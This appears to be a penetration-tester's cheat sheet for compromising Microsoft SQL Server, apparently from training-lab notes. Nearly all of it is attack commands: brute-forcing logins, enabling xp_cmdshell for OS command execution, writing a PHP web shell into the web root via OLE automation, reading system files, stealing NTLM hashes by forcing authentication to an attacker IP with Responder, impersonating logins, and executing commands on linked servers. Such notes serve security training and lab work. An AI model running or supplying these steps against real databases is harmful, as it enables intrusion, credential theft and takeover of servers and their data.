 Bruteforce:

```bash
use auxiliary/scanner/mssql/mssql_login
```

Windows:

```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

Linux:

```
mssqlclient.py -p 1433 julio@10.129.203.7
mssqlclient.py -p 1433 julio@10.129.203.7 -windows-auth 
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h - (Windows Auth)
```

### sqlsh

Use `-m vert/ascii` to format the tables

`vert`: Displays results in a vertical format (one column per row), useful for long rows.
`ascii`: Creates clean ASCII table output with aligned columns.

View Databases:

```bash
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

Select Database:

```bash
1> USE <database>
2> go
```

Show Tables:

```bash
1> SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES
2> GO
```

View table:

```bash
1> SELECT * FROM <table_name>
2> go
```

Command Execution:

```bash
1> xp_cmdshell 'whoami'
2> GO
```

### XP_CMDSHELL

Enable:

```bash
1> EXECUTE sp_configure 'show advanced options', 1
2> GO

-- To update the currently configured value for advanced options.  
1> RECONFIGURE
2> GO  

-- To enable the feature.  
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> GO  

-- To update the currently configured value for this feature.  
1> RECONFIGURE
2> GO
```

### Write Files

Need to enable Ole Automation Procedures

```bash
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### Create a File

```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read Local Files

```bash
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

### Stealing User Hash

```bash
auxiliary/admin/mssql/mssql_ntlm_stealer
EXEC master..xp_dirtree '\\10.10.15.65\share\'

responder -I <interface>
```

### Identify users we can impersonate

```bash
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

### Impersonate a user

```bash
1> EXECUTE AS LOGIN = '<USER>'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### Linked Databases

View linked databases:

```bash
1> SELECT srvname, isremote FROM sysservers
2> GO
```

or

```bash
EXEC sp_linkedservers;
```

Verify who we are on the remote server remote server:

```bash
EXEC ('select SYSTEM_USER;') AT [<remote_server>];
```

Gain code execution on remote server  emote server:

```bash
EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [<remote_server>];

EXEC ('EXEC xp_cmdshell ''whoami'';') AT [<remote_server>];
```




